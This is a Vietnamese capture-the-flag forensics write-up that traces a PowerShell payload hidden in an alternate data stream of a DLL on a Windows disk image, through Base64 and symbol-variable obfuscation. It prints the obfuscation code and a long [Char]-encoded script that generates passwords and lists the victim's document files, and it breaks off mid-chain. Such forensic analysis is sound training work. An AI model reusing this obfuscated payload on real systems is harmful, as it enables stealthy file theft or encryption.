






# Challenge Artifact Of Dangerous Sighting

## 1. Đầu vào challenge

Đầu vào challenge cấp `2023-03-09T132449_PANDORA.vhdx`, đây là disk ảo của Windows.



---

## 2. Dấu vết ban đầu trong disk image

Mở file bằng **FTK Image**, đọc một chút thấy được file:

```text
consoleHost_history.txt
```



Dòng này cho thấy kẻ tấn công đã lấy nội dung file `finpayload` rồi ghi nó vào **ADS** `hidden.ps1` gắn vào file `ActiveSyncProvider.dll`.

Tiếp tục kiểm tra file `ActiveSyncProvider.dll`, trích xuất ADS `hidden.ps1`. Sau khi tìm thấy `hidden.ps1`, đọc nội dung thì thấy string giống Base64.



---

## 3. Decode lớp đầu

Thử decode thử ra được.



Khả năng có 1 lớp obfuscate ở đây.  
Giờ chỉ cần deobfuscate bằng PowerShell, khả năng cao đoạn này là đoạn định nghĩa để mapping các ký tự thường với chuỗi kí tự rác.

```powershell
${[~@}    = $();
${!!@!!]} = ++${[~@};
${[[!}    = --${[~@} + ${!!@!!]} + ${!!@!!]};
${~~~]}   = ${[[!} + ${!!@!!]};
${[!![!}  = ${[[!} + ${[[!};
${(~(!}   = ${~~~]} + ${[[!};
${!~!))}  = ${[!![!} + ${[[!};
${((!}    = ${!!@!!]} + ${[!![!} + ${[[!};
${=!!@!!} = ${~~~]} - ${!!@!!]} + ${!~!))};
${!=}     = ${((!} - ${~~~]} + ${!~!))} - ${!!@!!]};
${=@!~!}  = "".("$(@{})"[14] + "$(@{})"[16] + "$(@{})"[21] + "$(@{})"[27] + "$?"[1] + "$(@{})"[3]);
${=@!~!}  = "$(@{})"[14] + "$?"[3] + "${=@!~!}"[27];
${@!=}    = "[" + "$(@{})"[7] + "$(@{})"[22] + "$(@{})"[20] + "$?"[1] + "]";
```


---

## 4. Kết quả sau khi deobfuscate lớp mapping

Kết quả ra được một chuỗi rất dài dạng:

```powershell
[Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]43 + [Char]32 + [Char]32 + [Char]46 + [Char]10 + [Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]58 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]46 + [Char]32 + [Char]58 + [Char]46 + [Char]32 + [Char]46 + [Char]95 + [Char]95 + [Char]95 + [Char]45 + [Char]45 + [Char]45 + [Char]45 + [Char]45 + [Char]45 + [Char]45 + [Char]45 + [Char]45 + [Char]95 + [Char]95 + [Char]95 + [Char]46 + [Char]10 + [Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]58 + [Char]46 + [Char]58 + [Char]46 + [Char]32 + [Char]95 + [Char]34 + [Char]46 + [Char]94 + [Char]32 + [Char]46 + [Char]94 + [Char]32 + [Char]94 + [Char]46 + [Char]32 + [Char]32 + [Char]39 + [Char]46 + [Char]46 + [Char]32 + [Char]58 + [Char]34 + [Char]45 + [Char]95 + [Char]46 + [Char]32 + [Char]46 + [Char]10 + [Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]58 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]46 + [Char]58 + [Char]46 + [Char]46 + [Char]47 + [Char]58 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]46 + [Char]94 + [Char]32 + [Char]32 + [Char]58 + [Char]46 + [Char]58 + [Char]92 + [Char]46 + [Char]10 + [Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]58 + [Char]58 + [Char]32 + [Char]43 + [Char]46 + [Char]32 + [Char]58 + [Char]46 + [Char]58 + [Char]47 + [Char]58 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]46 + [Char]32 + [Char]46 + [Char]58 + [Char]92 + [Char]10 + [Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]58 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]95 + [Char]32 + [Char]58 + [Char]58 + [Char]58 + [Char]47 + [Char]58 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]58 + [Char]92 + [Char]10 + [Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]46 + [Char]32 + [Char]46 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]45 + [Char]32 + [Char]58 + [Char]32 + [Char]58 + [Char]46 + [Char]58 + [Char]46 + [Char]47 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]58 + [Char]92 + [Char]10 + [Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]58 + [Char]32 + [Char]46 + [Char]32 + [Char]58 + [Char]32 + [Char]46 + [Char]58 + [Char]46 + [Char]124 + [Char]46 + [Char]32 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]58 + [Char]58 + [Char]124 + [Char]10 + [Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]32 + [Char]32 + [Char]58 + [Char]46 + [Char]46 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]58 + [Char]45 + [Char]32 + [Char]32 + [Char]58 + [Char]32 + [Char]46 + [Char]58 + [Char]32 + [Char]32 + [Char]58 + [Char]58 + [Char]124 + [Char]46 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]58 + [Char]124 + [Char]10 + [Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]46 + [Char]46 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]46 + [Char]46 + [Char]32 + [Char]58 + [Char]92 + [Char]32 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]58 + [Char]47 + [Char]10 + [Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]43 + [Char]32 + [Char]58 + [Char]58 + [Char]32 + [Char]58 + [Char]32 + [Char]45 + [Char]46 + [Char]58 + [Char]92 + [Char]32 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]46 + [Char]58 + [Char]47 + [Char]10 + [Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]46 + [Char]43 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]46 + [Char]32 + [Char]46 + [Char]32 + [Char]46 + [Char]32 + [Char]58 + [Char]46 + [Char]58 + [Char]92 + [Char]46 + [Char]32 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]35 + [Char]46 + [Char]46 + [Char]58 + [Char]47 + [Char]10 + [Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]58 + [Char]58 + [Char]32 + [Char]46 + [Char]32 + [Char]46 + [Char]32 + [Char]46 + [Char]32 + [Char]46 + [Char]32 + [Char]58 + [Char]58 + [Char]46 + [Char]58 + [Char]46 + [Char]46 + [Char]58 + [Char]46 + [Char]92 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]46 + [Char]58 + [Char]47 + [Char]10 + [Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]46 + [Char]46 + [Char]32 + [Char]58 + [Char]32 + [Char]32 + [Char]45 + [Char]58 + [Char]58 + [Char]58 + [Char]58 + [Char]46 + [Char]92 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]124 + [Char]32 + [Char]124 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]58 + [Char]47 + [Char]10 + [Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]58 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]46 + [Char]45 + [Char]58 + [Char]46 + [Char]34 + [Char]58 + [Char]46 + [Char]58 + [Char]58 + [Char]46 + [Char]92 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]58 + [Char]47 + [Char]10 + [Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]45 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]46 + [Char]32 + [Char]46 + [Char]32 + [Char]46 + [Char]58 + [Char]32 + [Char]46 + [Char]58 + [Char]58 + [Char]58 + [Char]46 + [Char]58 + [Char]46 + [Char]92 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]58 + [Char]47 + [Char]10 + [Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]58 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]58 + [Char]32 + [Char]46 + [Char]46 + [Char]46 + [Char]46 + [Char]58 + [Char]58 + [Char]95 + [Char]58 + [Char]46 + [Char]46 + [Char]58 + [Char]92 + [Char]32 + [Char]32 + [Char]32 + [Char]95 + [Char]95 + [Char]95 + [Char]32 + [Char]32 + [Char]32 + [Char]58 + [Char]47 + [Char]10 + [Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]58 + [Char]46 + [Char]32 + [Char]46 + [Char]46 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]46 + [Char]58 + [Char]32 + [Char]58 + [Char]46 + [Char]58 + [Char]46 + [Char]58 + [Char]92 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]58 + [Char]47 + [Char]10 + [Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]43 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]58 + [Char]32 + [Char]46 + [Char]32 + [Char]58 + [Char]58 + [Char]46 + [Char]32 + [Char]58 + [Char]46 + [Char]58 + [Char]46 + [Char]32 + [Char]46 + [Char]58 + [Char]46 + [Char]124 + [Char]92 + [Char]32 + [Char]32 + [Char]46 + [Char]58 + [Char]47 + [Char]124 + [Char]10 + [Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]83 + [Char]67 + [Char]82 + [Char]73 + [Char]80 + [Char]84 + [Char]32 + [Char]84 + [Char]79 + [Char]32 + [Char]68 + [Char]69 + [Char]76 + [Char]65 + [Char]89 + [Char]32 + [Char]72 + [Char]85 + [Char]77 + [Char]65 + [Char]78 + [Char]32 + [Char]82 + [Char]69 + [Char]83 + [Char]69 + [Char]65 + [Char]82 + [Char]67 + [Char]72 + [Char]32 + [Char]79 + [Char]78 + [Char]32 + [Char]82 + [Char]69 + [Char]76 + [Char]73 + [Char]67 + [Char]32 + [Char]82 + [Char]69 + [Char]67 + [Char]76 + [Char]65 + [Char]77 + [Char]65 + [Char]84 + [Char]73 + [Char]79 + [Char]78 + [Char]10 + [Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]83 + [Char]84 + [Char]65 + [Char]89 + [Char]32 + [Char]81 + [Char]85 + [Char]73 + [Char]69 + [Char]84 + [Char]32 + [Char]45 + [Char]32 + [Char]72 + [Char]65 + [Char]67 + [Char]75 + [Char]32 + [Char]84 + [Char]72 + [Char]69 + [Char]32 + [Char]72 + [Char]85 + [Char]77 + [Char]65 + [Char]78 + [Char]83 + [Char]32 + [Char]45 + [Char]32 + [Char]83 + [Char]84 + [Char]69 + [Char]65 + [Char]76 + [Char]32 + [Char]84 + [Char]72 + [Char]69 + [Char]73 + [Char]82 + [Char]32 + [Char]83 + [Char]69 + [Char]67 + [Char]82 + [Char]69 + [Char]84 + [Char]83 + [Char]32 + [Char]45 + [Char]32 + [Char]70 + [Char]73 + [Char]78 + [Char]68 + [Char]32 + [Char]84 + [Char]72 + [Char]69 + [Char]32 + [Char]82 + [Char]69 + [Char]76 + [Char]73 + [Char]67 + [Char]10 + [Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]71 + [Char]79 + [Char]32 + [Char]65 + [Char]76 + [Char]76 + [Char]73 + [Char]69 + [Char]78 + [Char]83 + [Char]32 + [Char]65 + [Char]76 + [Char]76 + [Char]73 + [Char]65 + [Char]78 + [Char]67 + [Char]69 + [Char]32 + [Char]33 + [Char]33 + [Char]33 + [Char]10 + [Char]102 + [Char]117 + [Char]110 + [Char]99 + [Char]116 + [Char]105 + [Char]111 + [Char]110 + [Char]32 + [Char]109 + [Char]97 + [Char]107 + [Char]101 + [Char]80 + [Char]97 + [Char]115 + [Char]115 + [Char]10 + [Char]123 + [Char]10 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]36 + [Char]97 + [Char]108 + [Char]112 + [Char]104 + [Char]61 + [Char]64 + [Char]40 + [Char]41 + [Char]59 + [Char]10 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]54 + [Char]53 + [Char]46 + [Char]46 + [Char]57 + [Char]48 + [Char]124 + [Char]102 + [Char]111 + [Char]114 + [Char]101 + [Char]97 + [Char]99 + [Char]104 + [Char]45 + [Char]111 + [Char]98 + [Char]106 + [Char]101 + [Char]99 + [Char]116 + [Char]123 + [Char]36 + [Char]97 + [Char]108 + [Char]112 + [Char]104 + [Char]43 + [Char]61 + [Char]91 + [Char]99 + [Char]104 + [Char]97 + [Char]114 + [Char]93 + [Char]36 + [Char]95 + [Char]125 + [Char]59 + [Char]10 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]36 + [Char]110 + [Char]117 + [Char]109 + [Char]61 + [Char]64 + [Char]40 + [Char]41 + [Char]59 + [Char]10 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]52 + [Char]56 + [Char]46 + [Char]46 + [Char]53 + [Char]55 + [Char]124 + [Char]102 + [Char]111 + [Char]114 + [Char]101 + [Char]97 + [Char]99 + [Char]104 + [Char]45 + [Char]111 + [Char]98 + [Char]106 + [Char]101 + [Char]99 + [Char]116 + [Char]123 + [Char]36 + [Char]110 + [Char]117 + [Char]109 + [Char]43 + [Char]61 + [Char]91 + [Char]99 + [Char]104 + [Char]97 + [Char]114 + [Char]93 + [Char]36 + [Char]95 + [Char]125 + [Char]59 + [Char]10 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]10 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]36 + [Char]114 + [Char]101 + [Char]115 + [Char]32 + [Char]61 + [Char]32 + [Char]36 + [Char]110 + [Char]117 + [Char]109 + [Char]32 + [Char]43 + [Char]32 + [Char]36 + [Char]97 + [Char]108 + [Char]112 + [Char]104 + [Char]32 + [Char]124 + [Char]32 + [Char]83 + [Char]111 + [Char]114 + [Char]116 + [Char]45 + [Char]79 + [Char]98 + [Char]106 + [Char]101 + [Char]99 + [Char]116 + [Char]32 + [Char]123 + [Char]71 + [Char]101 + [Char]116 + [Char]45 + [Char]82 + [Char]97 + [Char]110 + [Char]100 + [Char]111 + [Char]109 + [Char]125 + [Char]59 + [Char]10 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]36 + [Char]114 + [Char]101 + [Char]115 + [Char]32 + [Char]61 + [Char]32 + [Char]36 + [Char]114 + [Char]101 + [Char]115 + [Char]32 + [Char]45 + [Char]106 + [Char]111 + [Char]105 + [Char]110 + [Char]32 + [Char]39 + [Char]39 + [Char]59 + [Char]10 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]114 + [Char]101 + [Char]116 + [Char]117 + [Char]114 + [Char]110 + [Char]32 + [Char]36 + [Char]114 + [Char]101 + [Char]115 + [Char]59 + [Char]32 + [Char]10 + [Char]125 + [Char]10 + [Char]10 + [Char]102 + [Char]117 + [Char]110 + [Char]99 + [Char]116 + [Char]105 + [Char]111 + [Char]110 + [Char]32 + [Char]109 + [Char]97 + [Char]107 + [Char]101 + [Char]70 + [Char]105 + [Char]108 + [Char]101 + [Char]76 + [Char]105 + [Char]115 + [Char]116 + [Char]10 + [Char]123 + [Char]10 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]36 + [Char]102 + [Char]105 + [Char]108 + [Char]101 + [Char]115 + [Char]32 + [Char]61 + [Char]32 + [Char]99 + [Char]109 + [Char]100 + [Char]32 + [Char]47 + [Char]99 + [Char]32 + [Char]119 + [Char]104 + [Char]101 + [Char]114 + [Char]101 + [Char]32 + [Char]47 + [Char]114 + [Char]32 + [Char]36 + [Char]101 + [Char]110 + [Char]118 + [Char]58 + [Char]85 + [Char]83 + [Char]69 + [Char]82 + [Char]80 + [Char]82 + [Char]79 + [Char]70 + [Char]73 + [Char]76 + [Char]69 + [Char]32 + [Char]42 + [Char]46 + [Char]112 + [Char]100 + [Char]102 + [Char]32 + [Char]42 + [Char]46 + [Char]100 + [Char]111 + [Char]99 + [Char]32 + [Char]42 + [Char]46 + [Char]100 + [Char]111 + [Char]99 + [Char]120 + [Char]32 + [Char]42 + [Char]46 + [Char]120 + [Char]108 + [Char]115 + [Char]32 + [Char]42 + [Char]46 + [Char]120 + [Char]108 + [Char]115 + [Char]120 + [Char]32 + [Char]42 + [Char]46 + [Char]112 + [Char]112 + [Char]116 + [Char]120 + [Char]32 + [Char]42 + [Char]46 + [Char]112 + [Char]112 + [Char]116 + [Char]32 + [Char]42 + [Char]46 + [Char]116 + [Char]120 + [Char]116 + [Char]32 + [Char]42 + [Char]46 + [Char]99 + [Char]115 + [Char]118 + [Char]32 + [Char]42 + [Char]46 + [Char]104 + [Char]116 + [Char]109 + [Char]32 + [Char]42 + [Char]46 + [Char]104 + [Char]116 + [Char]109 + [Char]108 + [Char]32 + [Char]42 + [Char]46 + [Char]112 + [Char]104 + [Char]112 + [Char]59 + [Char]10 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]36 + [Char]76 + [Char]105 + [Char]115 + [Char]116 + [Char]32 + [Char]61 + [Char]32 + [Char]36 + [Char]102 + [Char]105 + [Char]108 + [Char]101 + [Char]115 + [Char]32 + [Char]45 + [Char]115 + [Char]112 + [Char]108 + [Char]105 + [Char]116 + [Char]32 + [Char]39 + [Char]92 + [Char]114 + [Char]39 + [Char]59 + [Char]10 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]114 + [Char]101 + [Char]116 + [Char]117 + [Char]114 + [Char]110 + [Char]32 + [Char]36 + [Char]76 + [Char]105 + 